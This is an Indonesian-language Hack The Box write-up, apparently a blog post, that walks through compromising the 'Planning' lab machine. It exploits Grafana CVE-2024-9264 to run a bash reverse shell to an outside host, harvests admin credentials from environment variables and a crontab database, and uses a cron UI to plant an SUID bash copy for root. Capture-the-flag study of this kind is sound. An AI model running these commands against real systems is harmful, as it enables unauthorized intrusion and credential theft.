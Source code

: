 ```yaml
---
layout: post
title: "HTB Writeup – Planning"
date: 2025-06-13
image: /assets/machine/planning/planning.jpg
tags: [htb, linux, web]
excerpt: "CVE-2024-9264-RCE-Exploit in Grafana via SQL Expressions."
---
```


<center>
  <img src="/assets/machine/planning/planning.jpg" class="img-post" />
</center>

# RECON

## Machine Info

As is common in real life pentests, you will start the Planning box with credentials for the following account: admin / 0D5oT70Fq13EvB5r

## Port Scan

```sh
$ rustscan -a $ip --ulimit 2000 -r 1-65535 -- -A -Pn

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
|_  256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Edukate - Online Education Website
|_http-server-header: nginx/1.24.0 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Gak ada yang bisa kita lakuin dari hasil di atas, jadi kita coba fuzz subdomain.

## Subdomain

```sh
$ ffuf -c -u "http://planning.htb" -H "Host: FUZZ.planning.htb" -w ~/wordlists/seclists/Discovery/DNS/bug-bounty-program-subdomains-trickest-inventory.txt -t 20 -fs 178

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://planning.htb
 :: Wordlist         : FUZZ: /home/hadespwnme/wordlists/seclists/Discovery/DNS/bug-bounty-program-subdomains-trickest-inventory.txt
 :: Header           : Host: FUZZ.planning.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 20
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 178
________________________________________________

grafana                 [Status: 302, Size: 29, Words: 2, Lines: 3, Duration: 370ms]
:: Progress: [17661/1613291] :: Job [1/1] :: 46 req/sec :: Duration: [0:06:53] :: Errors: 0 ::
```

Tambahkan `grafana.planning.htb` ke `/etc/hosts`

# WEB

## CVE-2024-9264

Setelah muter muter mencari, kita mendapatkan versi dari grafana yang dimana terdapat CVE untuk melakukan *remote code execution*, kita gunakan poc berikut

[Grafana Exploit](https://github.com/nollium/CVE-2024-9264)

```sh
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r\
    -c 'bash -c "bash -i >& /dev/tcp/10.10.14.140/4444 0>&1"'\
    http://grafana.planning.htb
```

Kita dapat user root, tapi gak ada flag dimana mana, asumsi berarti ini ada di **Docker container**.

# USER

Jadi kita jalankan linpeas untuk mempermudah.

```sh
╔══════════╣ Cleaned processes
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-hardening/privilege-escalation#processes
root           1  0.6  8.5 1835044 161988 ?      Ssl  03:01   2:18 grafana server --homepath=/usr/share/grafana --config=/etc/grafana/grafana.ini --packaging=docker cfg:default.log.mode=con
sole cfg:default.paths.data=/var/lib/grafana cfg:default.paths.logs=/var/log/grafana cfg:default.paths.plugins=/var/lib/grafana/plugins cfg:default.paths.provisioning=/etc/grafana/provision
ing
root          56  0.0  1.1 407968 22656 ?        Sl   09:05   0:00 /usr/local/bin/duckdb
root          62  0.0  0.0   2892  1536 ?        S    09:05   0:00  _ sh -c bash -c "bash -i >& /dev/tcp/10.10.14.140/4444 0>&1" >/tmp/grafana_cmd_output 2>&1
root          63  0.0  0.1   4364  3072 ?        S    09:05   0:00      _ bash -c bash -i >& /dev/tcp/10.10.14.140/4444 0>&1
root          64  0.0  0.1   4496  3584 ?        S    09:05   0:00          _ bash -i
root          73  0.2  0.2   6284  4864 ?        S    09:09   0:00              _ bash linpeas.sh
root        2741  0.0  0.1   6284  3684 ?        S    09:11   0:00                  _ bash linpeas.sh
root        2745  0.0  0.1   7208  3072 ?        R    09:11   0:00                  |   _ ps fauxwww
root        2744  0.0  0.1   6284  3428 ?        S    09:11   0:00                  _ bash linpeas.sh

╔══════════╣ Searching tables inside readable .db/.sql/.sqlite files (limit 100)
Found /var/lib/grafana/grafana.db

╔══════════╣ Environment
╚ Any private information inside environment variables?
AWS_AUTH_SESSION_DURATION=15m
HISTSIZE=0
HOSTNAME=7ce659d667d7
PWD=/usr/share/grafana
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_HOME=/usr/share/grafana
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
HOME=/usr/share/grafana
HISTFILE=/dev/null
AWS_AUTH_EXTERNAL_ID=
SHLVL=3
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_LOGS=/var/log/grafana
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
HISTFILESIZE=0
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
_=/usr/bin/env
```

Bisa kita lihat pada baris berikut adalah kredensial yang bisa kita gunakan.

```sh
GF_SECURITY_ADMIN_USER=enzo
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
```

Login via ssh dan kita akan mendapatkan user flag.

# ROOT

## Internal Enum

Kita jalankan kembali linpeas pada user enzo.

LinPEAS:

```sh
╔══════════╣ Searching tables inside readable .db/.sql/.sqlite files (limit 100)
Found /opt/crontabs/crontab.db: New Line Delimited JSON text data
Found /var/lib/command-not-found/commands.db: SQLite 3.x database, last written using SQLite version 3045001, file counter 5, database pages 967, cookie 0x4, schema 4, UTF-8, version-valid-
for 5
Found /var/lib/fwupd/pending.db: SQLite 3.x database, last written using SQLite version 3045001, file counter 6, database pages 16, cookie 0x5, schema 4, UTF-8, version-valid-for 6
Found /var/lib/PackageKit/transactions.db: SQLite 3.x database, last written using SQLite version 3045001, file counter 5, database pages 8, cookie 0x4, schema 4, UTF-8, version-valid-for 5

-> Extracting tables from /var/lib/command-not-found/commands.db (limit 20)
-> Extracting tables from /var/lib/fwupd/pending.db (limit 20)
-> Extracting tables from /var/lib/PackageKit/transactions.db (limit 20)
```

Kita lihat ada `/opt/contabs/crontab.db`, kita bisa lihat menggunakan **jq**:

```sh
{
  "name": "Grafana backup",
  "command": "/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz",
  "schedule": "@daily",
  "stopped": false,
  "timestamp": "Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)",
  "logging": "false",
  "mailing": {},
  "created": 1740774983276,
  "saved": false,
  "_id": "GTI22PpoJNtRKg0W"
}
{
  "name": "Cleanup",
  "command": "/root/scripts/cleanup.sh",
  "schedule": "* * * * *",
  "stopped": false,
  "timestamp": "Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)",
  "logging": "false",
  "mailing": {},
  "created": 1740849309992,
  "saved": false,
  "_id": "gNIRXh1WIc9K7BYX"
}
```

Kita mendapatkan `P4ssw0rdS0pRi0T3c`, namun ini bukan untuk `su root`.

## Cron

Kita periksa port yang terbuka, dan terdapat port 8000 yang bisa kita gunakan.

```sh
ssh -L 8000:127.0.0.1:8000 enzo@planning.htb
```

Ketika kita kunjungi [http://localhost:8000]([http://localhost:8000), membutuhkan password, kita gunakan password sebelumnya, lalu gunakan BurpSuite Intruder, dan mendapatkan username root untuk login.

Ternyata halaman ini digunakan oleh CronUI, dan kita bisa gunakan untuk melakukan privilege-escalation vertical.

Kita buat jadwal baru dan kita copy */bin/bash* ke /tmp.

```bash
cp /bin/bash /tmp/pwnme && chmod u+s /tmp/pwnme
```

Jalankan dan boom.

<center>
  <img src="/assets/machine/planning/root.jpg" class="img-post" />
</center>

Rooted.
